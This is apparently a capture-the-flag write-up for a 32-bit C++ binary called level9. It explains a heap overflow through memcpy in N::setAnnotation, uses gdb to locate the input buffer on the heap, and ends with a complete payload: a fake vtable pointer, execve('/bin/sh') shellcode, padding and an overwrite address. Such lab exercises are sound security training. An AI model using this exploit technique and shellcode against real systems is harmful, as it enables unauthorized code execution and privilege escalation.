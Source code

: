 We start by opening the the file in [dogbolt](https://dogbolt.org/).
It is a cpp file.

In this file there is 2 interesting thing :
- There is two class allocate one next to the other on the heap.
- In the class `N` the is a method `N::setAnnotation` which use a `memcpy` to copy `argv[1]` in a buffer from the class

Using [dogbolt](https://dogbolt.org/) we can see that the program allocate `6c`: 108 bytes with `new` : ```v3 = (N *)operator new(0x6Cu);```
So we know that we will need an offset of 108 bytes to overwrite `v4`

So what are we going to do : 
In the return of main has a double dereferenced call of `v4->operator+` because of how vtables works.
Since we can write on `v4` with `v6` we will have to put an address pointing to another address pointing to our shellcode


Finding the address of our input in the heap:
We start the program and go after the line calling `N::setAnnotation` in `main`

```Shell
(gdb) start AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 4 at 0x80485f8
Starting program: /home/user/level9/level9 AAAA
(gdb) ni 29
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   ...
```

We search the heap to find our value and we found `0x804a00c` the address on the heap
```Shell
(gdb) i proc map
process 5525
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7cfa000 0xb7cfc000     0x2000        0x0 
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d46000 0xb7d47000     0x1000        0x0 
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eed000 0xb7ef0000     0x3000        0x0 
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fce000 0xb7fd5000     0x7000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We see the start and the end of the heap at this line:
```0x804a000  0x806b000    0x21000        0x0 [heap]```
Where `0x804a000` is the starting address and `0x806b000` is the first that address doesn't belong to the heap anymore. (It's like a index where you have to : array[len(array) - 1] to access the last element)
So address end of the heap - 1 : `0x806b000` - 1 => `0x806afff`
```
(gdb) find 0x804a000, 0x806afff, "AAAA"
0x804a00c
1 pattern found.
```
The address of our input is : `0x804a00c`

Here we have to launch `/bin/sh` with a shellcode
To accommodate the double dereferencement we will overwrite the address of `v4` with the address of the beginning of our heap buffer.
At the start of our input we will put another address pointing to the shellcode :
[address of input + 4(sizeof this address)][shellcode][padding][address of input(this overwrite `v4`)]
address of the input in the heap : `0x804a00c`
in little endian : `\x0c\xa0\x04\x08`
address of the shellcode (input + 4) : `0x804a00c + 0x4 = 804A010`
in little endian : `\x10\xa0\x04\x08`

The [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) we will be using is : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```Shell
./level9 $(python -c 'print"\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
